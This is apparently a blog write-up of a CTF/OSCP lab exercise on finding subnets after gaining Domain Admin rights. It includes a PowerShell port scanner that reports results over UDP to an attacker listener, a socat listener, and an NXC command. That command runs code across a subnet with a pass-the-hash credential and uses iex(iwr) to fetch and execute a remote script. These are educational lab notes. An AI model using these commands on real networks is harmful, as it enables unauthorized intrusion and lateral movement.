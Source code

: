 ```yaml
---
title: "Hunting Subnets in a CTF Lab"
date: 2024-06-25T13:00:30-06:00
categories:
  - blog
tags:
  - powershell
  - subnets
  - CTF
  - OSCP
---
```


## Introduction

During a recent lab session, I encountered a challenging but exciting task: hunting down subnets. Armed with Domain Admin (DA) privileges on the main domain, I was set to make the exercise an intriguing venture. Despite the inherent lack of operational security (OpSec) safety in my approach, the process was thoroughly engaging.

### **Toolset**

- **PowerShell Scripting**: Utilized for probing subnet addresses.
- **socat**: Employed to listen for incoming UDP traffic.
- **NXC Command**: Used to execute commands across the network.
- **Web Server**: Used stage our powershell.

### **PowerShell Script**

To efficiently identify open ports across subnet addresses, I crafted a PowerShell script designed to check port 445 (SMB) and report back to my attacker box:

```powershell
$ListenerIP = "10.10.15.252"
$ListenerPort = 5001
$subnet = "172.16.2"
$Ports = @(80, 445, 139, 22, 21, 88, 389, 636, 443, 8080, 8000)
$udpclient = New-Object System.Net.Sockets.UdpClient

1..254 | ForEach-Object {
    $ip = "$subnet.$_"
    Foreach ($p in $Ports) {
        try {
            $socket = New-Object System.Net.Sockets.TcpClient
            $async = $socket.BeginConnect($ip, $p, $null, $null)
            if ($async.AsyncWaitHandle.WaitOne(1000, $false)) {
                $result = "$env:computername - $ip - $p is open`n"
				$udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            } else {
                $result = "$env:computername - $ip - $p is closed`n"
				# $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            }
            $socket.Close()
        } catch {
            $result = "$env:computername - $ip - $p encountered an error`n"
            $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
        }
    }
}
$udpclient.Close()
```

### Socat Command

For real-time result collection, socat was configured to listen on UDP port 5001:

```bash
socat UDP-RECV:5001 STDOUT
```

### NXC Command

```bash
nxc smb 172.30.1.0/24 -u DA -H 700168xxxxxxxx39bd67e0 -x 'powershell -c "iex (iwr http://10.10.45.252:8000/tools/psscan.ps1 -usebasic)"'
```

### The Output

```bash
DC01 - 172.16.2.100 - 445 is closed
FS01 - 172.16.2.100 - 445 is closed
DC01 - 172.16.2.101 - 445 is closed
DC01 - 172.16.2.102 - 445 is open
FS0 - 172.16.2.101 - 445 is closed
FS01 - 172.16.2.102 - 445 is closed
MS01 - 172.16.2.100 - 445 is closed
WIN01 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.101 - 445 is closed
WIN01 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.102 - 445 is closed
WIN01 - 172.16.2.102 - 445 is closed
WSADM1 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.102 - 445 is closed
SQL01 - 172.16.2.100 - 445 is closed
SQL01 - 172.16.2.101 - 445 is closed
SQL01 - 172.16.2.102 - 445 is closed
```

### Conclusion
While not necessarily OpSec safe, this exercise was a fun and effective way to explore and understand the network layout and security posture regarding SMB ports within the lab's domain. The use of automated scripts and real-time data exfiltration offered a dynamic approach to network exploration.

We can easily adapt the ports to check, or even nest another For loop to add checking for multiple subnets.  I already had an idea of what i was going to find, and was only interested in the existence of the subnet, so i opted for only port **(Updated the script since)** and was content with running this multiple times to get what i needed.
